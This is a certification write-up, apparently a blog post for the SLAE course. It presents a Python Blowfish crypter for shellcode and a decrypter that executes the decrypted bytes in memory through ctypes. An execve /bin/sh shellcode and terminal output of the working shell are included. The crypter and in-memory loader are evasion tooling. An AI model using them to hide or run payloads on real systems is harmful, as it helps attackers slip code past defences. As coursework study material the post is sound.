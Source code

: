 ```yaml
---
title: Custom Encrypter  
author: fwinsnes
date: 2021-01-19 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. 

According to wikipedia, "In cryptography, encryption is the process of encoding information. This process converts the original representation of the information, known as plaintext, into an alternative form known as ciphertext. Ideally, only authorized parties can decipher a ciphertext back to plaintext and access the original information. Encryption does not itself prevent interference but denies the intelligible content to a would-be interceptor."

Today we are going to dive a little deep within Custom Encryption. 

The last assignment from the seven requires the creation of a Custom Encrypter, written in any language that can encrypt and decrypt shellcode. In addition, the decrypter should execute the shellcode.

#### Theory

During the length of this post, the crypter used will be [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)). Moreover, the language employed will be Python, with the use of the library [pycrypto](https://pypi.org/project/pycrypto/)

##### Encrypter

```term
# Author: SLAE-27812 (Felipe Winsnes)

from Crypto.Cipher import Blowfish
import sys

if len(sys.argv) != 3:

   print "[*] Example: echo -ne <shellcode between quotes> | python encrypt.py <key> <IV number>" + "\r\n"
   sys.exit(1)

obj = Blowfish.new(sys.argv[1], Blowfish.MODE_CBC, sys.argv[2])

message = sys.stdin.read()

ciphertext = obj.encrypt(message)

crypted = ""

for x in bytearray(ciphertext):
  crypted += '\\x'
  ciphertext = '%02x' % x
  crypted += ciphertext

print '"' + crypted + '"'
```

As you can see, the shellcode must be printed and piped as an argument. Furthermore, the key and the IV must be parsed as arguments as well. In addition, the IV number should be 
specifically 8, as IV takes an 8 byte binary argument in such cryption schema.

Let's encode some execve shellcode that executes /bin/sh. The key will be '@-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ' and the IV 'ZYf3J4hM'. Furthermore, it is essential to note that the shellcode has to be divisible by 8. Due to this, the chosen shellcode has been parsed with a few nops. The original size was 22, it should be now 24.

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ python encrypt.py 
[*] Example: echo -ne <shellcode between quotes> | python encrypt.py <key> <IV number>

whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80\x90\x90" | python encrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
"\x24\x5c\xc5\x8c\x39\x23\x01\x95\xfd\x4c\x76\x81\x92\xb4\x97\x18\x94\xb7\xf1\x4e\x7e\xb2\xd3\x42"
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$
```

With no NOPS, the following error is given:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80" | python encrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
Traceback (most recent call last):
  File "encrypt.py", line 15, in <module>
    ciphertext = obj.encrypt(message)
  File "/usr/lib/python2.7/dist-packages/Crypto/Cipher/blockalgo.py", line 244, in encrypt
    return self._cipher.encrypt(plaintext)
ValueError: Input strings must be a multiple of 8 in length
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$
```

##### Decrypter

```term
# Author: SLAE-27812 (Felipe Winsnes)

from ctypes import *
from Crypto.Cipher import Blowfish
import sys

if len(sys.argv) != 3:

   print "[*] Example: python decrypt.py <key> <IV number>" + "\r\n"
   sys.exit(1)

decrypted = ""

ciphertext = ("\x24\x5c\xc5\x8c\x39\x23\x01\x95\xfd\x4c\x76\x81\x92\xb4\x97\x18\x94\xb7\xf1\x4e\x7e\xb2\xd3\x42")

obj = Blowfish.new(sys.argv[1], Blowfish.MODE_CBC, sys.argv[2])

decrypt = obj.decrypt(ciphertext)
shellcode = decrypt

print "Original shellcode in hex escape sequence:"

for x in bytearray(decrypt):

  decrypted += '\\x'
  decrypt = '%02x' % x
  decrypted += decrypt

print '"' + (decrypted) + '"'

buffer = create_string_buffer(shellcode)
print " "
boom = cast(buffer, CFUNCTYPE(c_void_p))

boom()
```

#### EndGame

```term
whitecr0wz@SLAE:~/assignments/Assignment_7$ python decrypt.py 
[*] Example: python decrypt.py <key> <IV number>

whitecr0wz@SLAE:~/assignments/Assignment_7$ python decrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
Original shellcode in hex escape sequence:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80\x90\x90"
 
$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_7).
